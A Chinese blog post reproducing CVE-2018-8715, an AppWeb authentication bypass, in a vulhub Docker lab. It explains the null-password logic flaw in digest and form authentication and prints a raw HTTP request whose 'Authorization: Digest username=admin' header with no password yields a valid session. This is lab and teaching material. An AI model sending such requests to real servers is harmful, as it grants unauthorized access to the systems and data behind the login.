



# CVE-2018-8715 - Zovt - 博客园

> 原文：[`www.cnblogs.com/zovt/p/16341890.html`](https://www.cnblogs.com/zovt/p/16341890.html)

## AppWeb 认证绕过漏洞（CVE-2018-8715）复现

### 一、实验所需环境

#### 1、Ubuntu

#### 2、vulhub

#### 3、appweb/CVE-2018-8715

### 二、漏洞介绍

AppWeb 是 Embedthis Software LLC 公司负责开发维护的一个基于 GPL 开源协议的嵌入式 Web Server。他使用 C/C++来编写，能够运行在几乎先进所有流行的操作系统上。当然他最主要的应用场景还是为嵌入式设备提供 Web Application 容器。

AppWeb 可以进行认证配置，其认证方式包括以下三种：

*   basic 传统 HTTP 基础认证
*   digest 改进版 HTTP 基础认证，认证成功后将使用 Cookie 来保存状态，而不用再传递 Authorization 头
*   form 表单认证

其 7.0.3 之前的版本中，对于 digest 和 form 两种认证方式，如果用户传入的密码为 null（也就是没有传递密码参数），appweb 将因为一个逻辑错误导致直接认证成功，并返回 session。

### 三、漏洞复现

（1）进入 vulhub，选择 appweb/CVE-2018-8715 漏洞环境，
输入命令启动：`docker-compose up -d`

（2）环境启动成功后，访问 http://your-ip:8080 即可查看到登录界面需要输入用户名、密码

（3）利用该漏洞需要知道一个已存在的用户名，当前环境下用户名为 admin。
使用 Burp Suite 抓包，构造头`Authorization: Digest username=admin`，并发送如下数据包：

```
GET / HTTP/1.1
Host: example.com
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Authorization: Digest username=admin 
```

可见，因为我们没有传入密码字段，所以服务端出现错误，直接返回了 200，且包含一个 session：

（4）设置这个 session 到浏览器，即可正常访问需要认证的页面：


### 参考链接：

*   [`github.com/vulhub/vulhub/blob/master/appweb/CVE-2018-8715`](https://github.com/vulhub/vulhub/blob/master/appweb/CVE-2018-8715)
*   [`ssd-disclosure.com/index.php/archives/3676`](https://ssd-disclosure.com/index.php/archives/3676)